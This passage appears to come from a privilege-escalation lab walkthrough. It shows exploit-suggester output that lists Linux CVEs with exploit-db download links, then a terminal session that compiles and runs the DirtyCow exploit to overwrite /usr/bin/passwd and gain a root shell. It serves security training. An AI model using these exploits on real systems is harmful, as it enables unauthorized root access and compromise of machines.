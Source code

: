 ```
[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Tags: ubuntu=16.04
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2009-1185] udev

   Details: https://www.exploit-db.com/exploits/8572/
   Tags: ubuntu=8.10|9.04
   Download URL: https://www.exploit-db.com/download/8572
   Comments: Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed 

[+] [CVE-2009-1185] udev 2

   Details: https://www.exploit-db.com/exploits/8478/
   Download URL: https://www.exploit-db.com/download/8478
   Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2010-0832] PAM MOTD

   Details: https://www.exploit-db.com/exploits/14339/
   Tags: ubuntu=9.10|10.04
   Download URL: https://www.exploit-db.com/download/14339
   Comments: SSH access to non privileged user is needed

[+] [CVE-2016-1247] nginxed-root.sh

   Details: https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
   Tags: debian=8,ubuntu=14.04|16.04|16.10
   Download URL: https://legalhackers.com/exploits/CVE-2016-1247/nginxed-root.sh
   Comments: Rooting depends on cron.daily (up to 24h of dealy). Affected: deb8: <1.6.2; 14.04: <1.4.6; 16.04: 1.10.0
```

```
TCM@debian:~$ gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
TCM@debian:~$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap f1c02000

madvise 0

ptrace 0

TCM@debian:~$ passwd
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/home/user#
```
